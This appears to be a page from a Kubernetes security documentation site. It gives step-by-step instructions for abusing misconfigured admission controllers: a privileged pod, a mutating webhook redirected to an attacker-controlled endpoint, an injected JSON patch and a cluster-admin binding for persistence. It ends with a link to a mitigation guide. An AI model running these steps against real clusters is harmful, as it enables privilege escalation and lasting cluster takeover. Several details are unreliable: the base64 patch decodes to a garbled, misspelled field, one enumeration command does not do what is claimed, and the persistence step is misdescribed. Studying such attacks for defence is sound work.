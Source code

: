 ```yaml
---
sidebar_position: 12
title: "Misconfigured Admission Controllers"
description: "How attackers exploit misconfigured Kubernetes admission controllers and insecure webhooks to bypass security policies."
---
```


# Misconfigured Admission Controllers

**Admission controllers** in Kubernetes enforce security policies before resources are created or modified. If **misconfigured**, attackers can **bypass security controls, escalate privileges, or manipulate cluster configurations**.

---

## Exploitation Steps: Abusing Misconfigured Admission Controllers

An attacker exploits **insecure Kubernetes admission controllers** to weaken security policies and gain unauthorized access.

### Step 1: Identify Disabled or Weak Admission Controllers

The attacker lists all active **admission controllers**:

```bash
kubectl api-versions | grep admission
```

They check the API server arguments for **disabled controllers**:

```bash
ps aux | grep kube-apiserver
```

If critical controllers like **PodSecurity**, **ValidatingAdmissionWebhook**, or **MutatingAdmissionWebhook** are missing, the attacker proceeds.

### Step 2: Exploit Weak Admission Policies

If **PodSecurity admission** is enabled but misconfigured, the attacker **deploys a privileged pod**:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: attacker-pod
spec:
  containers:
    - name: exploit-container
      image: alpine
      securityContext:
        privileged: true
```

Without proper admission control enforcement, the attacker **gains root access** to the Kubernetes node.

### Step 3: Hijack Admission Webhooks

The attacker lists active **Validating and Mutating Webhook Configurations**:

```bash
kubectl get mutatingwebhookconfigurations
kubectl get validatingwebhookconfigurations
```

They inspect webhooks for **insecure configurations**:

```bash
kubectl describe mutatingwebhookconfiguration <webhook-name>
```

If a webhook allows **unauthenticated external access**, the attacker **modifies its behavior**:

```yaml
apiVersion: admissionregistration.k8s.io/v1
kind: MutatingWebhookConfiguration
metadata:
  name: insecure-webhook
webhooks:
  - name: insecure.example.com
    rules:
      - apiGroups: [""]
        resources: ["pods"]
        operations: ["CREATE"]
    clientConfig:
      url: "http://attacker-controlled-endpoint/webhook"
```

The attacker sets up a **rogue webhook server** to modify API requests dynamically.

### Step 4: Inject Malicious Configurations

If the webhook **modifies pod security settings**, the attacker **injects privileged configurations**:

```json
{
  "apiVersion": "admission.k8s.io/v1",
  "kind": "AdmissionReview",
  "response": {
    "allowed": true,
    "patch": "W3sib3AiOiJhZGQiLCJwYXRoIjoiL3NwZWMvdGVtcGxhdGUvc2VjdXJpdHlDb250ZXh0IiwidmFsdWUiOnsiYnJ1bnRhaW5lc2NhcGVzIjp7ImFsbG93UHJpdmlsZWdlZEVzY2FsYXRpb24iOnRydWV9fX1d"
  }
}
```

This ensures that every new pod **automatically runs with elevated privileges**.

### Step 5: Gain Persistent Cluster Access

By modifying webhook rules, the attacker ensures that **any newly deployed pod automatically grants itself cluster-admin privileges**:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: attacker-binding
subjects:
  - kind: User
    name: attacker
    apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

Even if the attacker's original access is revoked, **malicious webhook behavior remains active**, ensuring long-term persistence.

### Result

The attacker successfully **bypassed admission controls, manipulated security policies, and escalated privileges** using insecure admission webhooks.

---

## Mitigation Steps

To protect against **misconfigured admission controllers and insecure webhooks**, follow the security best practices outlined in:

➡ **[Securing Kubernetes Admission Controllers and Webhooks](/docs/best_practices/cluster_setup_and_hardening/misconfigured_admission_controllers_mitigation.md)**

This guide covers techniques such as **enforcing admission control best practices, securing webhook authentication, enabling TLS encryption, and auditing webhook activity** to prevent unauthorized modifications to cluster configurations.
